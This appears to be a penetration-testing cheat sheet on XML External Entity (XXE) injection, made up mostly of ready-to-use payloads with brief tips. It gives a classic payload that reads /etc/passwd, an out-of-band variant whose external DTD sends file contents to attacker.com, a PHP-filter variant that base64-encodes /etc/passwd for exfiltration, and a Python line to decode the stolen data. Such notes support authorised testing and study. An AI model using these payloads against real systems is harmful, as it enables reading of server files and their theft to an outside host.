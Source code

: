 # XXE

```markup
<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<Content>&xxe;</Content>
</root>
```

Ensure that regardless of the format of your xml files, that there is only one root node.  Several parsers will refuse to validate the file and will error in the event of multiple root nodes.  As with all exploits, this isn't always the case, but if your exploit fails, this would be a good thing to ensure.

## Out-of-band XXE

```markup
POST http://example.com/xml HTTP/1.1

<!DOCTYPE data [
  <!ENTITY % file SYSTEM
  "file:///etc/lsb-release">
  <!ENTITY % dtd SYSTEM
  "http://attacker.com/evil.dtd">
  %dtd;
]>
<data>&send;</data>
```

#### evil.dtd

```markup
<!ENTITY % all "<!ENTITY send SYSTEM 'http://attacker.com/?collect=%file;'>">
%all;
```

### PHP Filters

```markup
<!ENTITY % data SYSTEM " php://filter/read=zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://127.0.0.1/dtd.xml?%data;'>">
```

Result can be decoded using Python:

```python
zlib.decompress(base64.b64decode(req), -15) 
```

## References

[Acunetix - Out-of-band XML External Entity \(OOB-XXE\)](https://www.acunetix.com/blog/articles/band-xml-external-entity-oob-xxe/)  
[XXE Payloads](https://gist.github.com/staaldraad/01415b990939494879b4)  
[PayloadAllTheThings - XXE](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20injections)  
[xxe\_oob\_exfil.py](https://gist.github.com/Reboare/49b309711222254eaf970e90388a7bdf)



